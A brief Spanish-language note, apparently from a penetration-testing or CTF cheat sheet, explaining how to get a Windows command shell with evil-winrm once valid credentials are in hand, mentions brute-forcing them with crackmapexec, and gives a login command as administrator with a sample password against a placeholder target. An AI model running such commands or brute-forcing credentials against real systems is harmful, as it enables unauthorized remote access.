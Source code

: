 Obtendremos una consola de comandos de windows.
Es necesario tener unas credenciales válidas, se pueden obtener mediante fuerza bruta usando crackmapexec.

### Command
	evil-winrm -u administrator -p 'tinkerbell' -i <targetip>
